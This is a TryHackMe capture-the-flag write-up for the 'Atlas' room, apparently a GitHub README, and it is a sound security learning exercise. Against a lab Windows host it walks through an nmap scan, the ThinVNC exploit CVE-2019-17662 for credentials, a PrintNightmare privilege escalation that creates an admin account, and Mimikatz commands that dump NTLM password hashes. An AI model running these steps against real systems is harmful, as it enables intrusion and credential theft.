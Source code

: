 # Atlas
This is my writeup for the TryHackMe room [Atlas](https://tryhackme.com/room/atlas) created by [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle).

![image](https://user-images.githubusercontent.com/86648102/135411347-8f13e0b8-c5c2-4758-ba25-e839550dc248.png)

<details><summary> Task 1 Introduction Room Overview and Deploy! </summary>
 <br>

 This is an introductory level room which aims to teach you the very basics of Windows system exploitation, from initial access, through to privilege escalation.

**Answer the questions below**

### Press the Green "Start Machine" button to deploy the machine!
 
 > No answer needed.
<br>
 
 </details>

<details><summary> Task 2 Enumeration: Port Scanning </summary>

**Enumeration** is probably the most important thing when comes to solving any challenge.


**Answer the questions below**

### Scan your target IP (10.10.200.252) with Nmap!

Let's add a bit of flavour here, to have a more complex scan with output to a text file for later review:

`sudo nmap -sC -sV -v -oN Atlasnmapscan.txt $ip -p- -Pn`

### With the Nmap default port range, you should find that two ports are open. What port numbers are these?

Reffer to the above **scan** ; the 2 ports are appearing quickly with the verbose output.

### What service does Nmap think is running on the higher of the two ports?

The answer is found in the bottom of the nmap scan.

![image](https://user-images.githubusercontent.com/86648102/135414498-baf3e3fd-48f5-4cfd-b10f-db34df0682c7.png)


### We would usually go on to do a lot more in-depth scanning, but we will leave it at that for this introductory room. We have what we need for the time being.

> Here, it's a reference for the nmap scan switches mentioned above. 
<br>
  </details>
  

<details><summary> Task 3 Enumeration: Service Enumeration </summary>

Doing the scan as suggested above, will contain this part.
- First service : 3389 RDP: Remote Desktop Protocol, used to get remote graphic desktop session ;
- Second service: 8080 HTTP-PROXY; 
 By accessing it into a web browser, we get prompted to authenticate 
  
  ![image](https://user-images.githubusercontent.com/86648102/135415966-53b1a5c3-f48d-4460-9347-050d2b1c753a.png)

We're going to curl the target to get more info:

`curl $ip:8080 -v`
![image](https://user-images.githubusercontent.com/86648102/135416755-45b5f730-f9c5-4d52-bcb0-f72fd5848e07.png)


**Answer the questions below**


### Use searchsploit to find the vulnerability in ThinVNC

`searchsploit ThinVNC`

![image](https://user-images.githubusercontent.com/86648102/135416567-0b2b2e07-a0ba-4c51-a8c0-a9a48f692f5c.png)

<br>
</details>

<details><summary> Task 4 Attack Foothold </summary>

**Answer the questions below**

# Clone the Git repository at https://github.com/MuirlandOracle/CVE-2019-17662  to your attacking machine.

`git clone https://github.com/MuirlandOracle/CVE-2019-17662`

# Switch into the newly created exploit directory and set the file to be executable 

- First check with `ll`; if the file is executable already, go to next task.

![image](https://user-images.githubusercontent.com/86648102/135418603-22ec11b3-6820-4043-9ffc-767d3ab495e5.png)


# Read through the exploit help menu

`./CVE-2019-17662.py --help`

- This script requires two arguments

![image](https://user-images.githubusercontent.com/86648102/135418690-71194ca4-80ad-465e-9837-7d867f2f9c3f.png)


![image](https://user-images.githubusercontent.com/86648102/135418912-c2ae1f7f-6f8e-4c1d-9452-b724fd50e37d.png)


# Use the credentials found by the script to get past the HTTP Basic Auth presented when trying to access the vulnerable service in your web browser. You should have access to a user desktop!

We could use the inbrowser version or we could use Remmina for this task.

- `sudo apt install remmina`
- After you have it installed, open `remmina`
- Click on "Add new connection" where you put the newfound details

- RIght CLick > Connect 

![image](https://user-images.githubusercontent.com/86648102/135423850-0946b3ae-e6bb-42ed-add1-b3c41bd35e02.png)

<br>
</details>

<details><summary> Task 5 Access VNC <> RDP  </summary>


If the above step worked for you, then you should be already conencted to the machine via Remmina.

However, the mentioned method here is working too.

`xfreerdp /v:10.10.200.252 /u:USERNAME /p:PASSWORD /cert:ignore +clipboard /dynamic-resolution /drive:/tmp,share`

> Replace USERNAME and PASSWORD arguments with your findings
<br>
</details>

<details><summary> Task 6 Attack Privilege Escalation  </summary>

--- 

**Answer the questions below**

We will use PrintNightmare to elevate our privileges on this target.


### There are many different implementations of PrintNightmare available. You are advised to use a PowerShell version written by Caleb Stewart and John Hammond.


### Navigate to the /tmp directory of your attacking VM, then clone the repository.


`cd /tmp`
`git clone https://github.com/calebstewart/CVE-2021-1675`

- Now, on the RDP session, open a powershell and run the following command:

`. \\tsclient\share\CVE-2021-1675\CVE-2021-1675.ps1` 

> This allows us to view (and thus import) files that are stored in the /tmp folder of our own attacking machine!

![image](https://user-images.githubusercontent.com/86648102/135426765-0c782b7e-5390-4151-88a4-08c738764e35.png)

- Next, in powershell, run `Invoke-Nightmare`

![image](https://user-images.githubusercontent.com/86648102/135427022-bdba10ff-1795-4dd3-95e7-e5069d3736bb.png)

We can now make use of our brand new admin account!
Run:

`Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n`

Input as  Password :`P@ssw0rd` (generated before with the script)

Run `whoami /groups`

![image](https://user-images.githubusercontent.com/86648102/135427571-8b68d13f-14b7-4367-9aa3-007fc66231b2.png)

Good. We now have admin on this machine.
<br>
</details>

<details><summary> Task 7 Attack Post Exploitation  </summary>

---
**Answer the questions below**

- First up, let's get an up-to-date copy of Mimikatz to our attacking machine.
Go to https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20210810-2 and download `mimikatz_trunk.zip`
Make sure that the zip file is in your /tmp directory, then unzip it with unzip mimikatz_trunk.zip.

On RPD:

`\\tsclient\share\x64\mimikatz.exe`

Then, with mimikatz open:

`privilege::debug`

> this obtains debug privileges which allows us to access other processes for "debugging" purposes.

`token::elevate`

> takes us from our administrative shell with high privileges into a SYSTEM level shell with maximum privileges

![image](https://user-images.githubusercontent.com/86648102/135429820-ea30492a-d8c0-4b6b-97f5-996b41d9371a.png)



# What is the Administrator account's NTLM password hash?

Found in the output of :

`lsadump::sam`

> this will provide us with a list of password hashes for every account on the machine

![image](https://user-images.githubusercontent.com/86648102/135430241-41c128b6-e617-4187-9dac-350418c37c0c.png)
<br>
</details>

<details><summary> Task 8 Conclusion Final Thoughts  </summary>

---

Congratulations -- you hacked Atlas!

**We covered initial exploitation of outdated software, as well as exploiting the Windows PrintSpooler and dumping password hashes with Mimikatz.**
<br>
</details>




